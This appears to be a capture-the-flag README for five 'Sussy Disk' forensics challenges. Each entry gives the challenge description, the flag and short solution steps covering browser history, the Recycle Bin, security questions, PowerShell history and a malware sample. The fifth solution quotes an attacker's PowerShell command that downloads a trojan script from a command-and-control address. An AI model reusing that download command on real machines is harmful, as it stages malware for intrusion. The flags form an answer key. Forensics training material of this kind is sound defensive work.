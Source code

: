 # Sussy Disk 1

| Key            | Value                                                                                                                                                                                                                                                                                                                                                                            |
|----------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Challenge Name | Sussy Disk 1                                                                                                                                                                                                                                                                                                                                                                     |
| Author         | warlocksmurf                                                                                                                                                                                                                                                                                                                                                                     |
| Category       | Forensics                                                                                                                                                                                                                                                                                                                                                                        |
| Description    | The forensics team recently recovered a disk image from a compromised machine. Your job as an intern is to help uncover what the attacker had done to the compromised machine and what artifacts you can dig up for the final report. The attacker searched up some suspicious stuff on the Internet after infiltrating the machine, I wonder what was the attacker looking for? |
| Challenge Type | Static                                                                                                                                                                                                                                                                                                                                                                           |
| Flag           | sunctf{g00gle_the_g0at}                                                                                                                                                                                                                                                                                                                                                          |
| Score          | ???                                                                                                                                                                                                                                                                                                                                                                              |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

<details>
<summary>Click to expand</summary>

1) Extract and analyze the Google History file.

   ![sol1](docs/sol1.png)

</details>

# Sussy Disk 2

| Key            | Value                                                                                                       |
|----------------|-------------------------------------------------------------------------------------------------------------|
| Challenge Name | Sussy Disk 2                                                                                                |
| Author         | warlocksmurf                                                                                                |
| Category       | Forensics                                                                                                   |
| Description    | The victim mentioned that one of his file was missing from the machine, the attacker might have deleted it. |
| Challenge Type | Static                                                                                                      |
| Flag           | sunctf{remember_your_handles}                                                                               |
| Score          | ???                                                                                                         |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

<details>
<summary>Click to expand</summary>

1) Analyze the Recycle Bin for the deleted flag.

   ![sol2](docs/sol2.png)

</details>

# Sussy Disk 3

| Key            | Value                                                                                                                                                             |
|----------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Challenge Name | Sussy Disk 3                                                                                                                                                      |
| Author         | warlocksmurf                                                                                                                                                      |
| Category       | Forensics                                                                                                                                                         |
| Description    | The forensics team needs to know the answers of the backup questions created by the victim. Can you retrieve them?<br><br>Flag format: `sunctf{Ans1_Ans2_An3}`. |
| Challenge Type | Static                                                                                                                                                            |
| Flag           | sunctf{Wowiee_SuperTsumu_Shen}                                                                                                                                    |
| Score          | ???                                                                                                                                                               |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

<details>
<summary>Click to expand</summary>

1) Two ways: extract and analyze the SAM registry, or use tools
   from [Nirsoft](https://www.nirsoft.net/utils/security_questions_view.html) to automatically extract it.

   ![sol4](docs/sol4.png)

</details>

# Sussy Disk 4

| Key            | Value                                                                                                                                                |
|----------------|------------------------------------------------------------------------------------------------------------------------------------------------------|
| Challenge Name | Sussy Disk 4                                                                                                                                         |
| Author         | warlocksmurf                                                                                                                                         |
| Category       | Forensics                                                                                                                                            |
| Description    | The attacker attempted to access a confidential ZIP file stored in the machine somewhere. It is also known that the attacker is a fan of PowerShell. |
| Challenge Type | Static                                                                                                                                               |
| Flag           | sunctf{powershell_is_my_favourite_language}                                                                                                          |
| Score          | ???                                                                                                                                                  |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

<details>
<summary>Click to expand</summary>

1) A password-protected ZIP file can be obtained from the Documents folder. Since the question mentioned the attacker is
   a fan of Powershell, the password can be obtained there.

   ![sol3](docs/sol3.png)

</details>

# Sussy Disk 5

| Key            | Value                                                                                           |
|----------------|-------------------------------------------------------------------------------------------------|
| Challenge Name | Sussy Disk 5                                                                                    |
| Author         | warlocksmurf                                                                                    |
| Category       | Forensics                                                                                       |
| Description    | Finally, it is time to identify the malware and understand its functions. The flag has 3 parts. |
| Challenge Type | Static                                                                                          |
| Flag           | sunctf{malware_analysis_is_not_that_hard}                                                       |
| Score          | ???                                                                                             |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

<details>
<summary>Click to expand</summary>

1) The Powershell history will show that a malicious Powershell script is downloaded from a C2. Analyzing the powershell
   script, the first part of the flag can be identified.

   `Invoke-WebRequest "http://192.168.1.73:8000/trojan.ps1" -OutFile C:\Users\warlocksmurf\Downloads\trojan.ps1`

   ![sol5](docs/sol5.png)

2) The Powershell script also dropped a base64 encoded malware to the Pictures folder. Going to the folder, an encrypted
   image can be identified with the malware. Analyzing the malware, it encrypted the image with XOR 35 and placed the
   third part of the flag in Temp folder.

   ![sol6](docs/sol6.png)

   ![sol7](docs/sol7.png)

3) The third part of the flag is a simple base64 and ROT13 encoded text.

   ![sol8](docs/sol8.png)

</details>
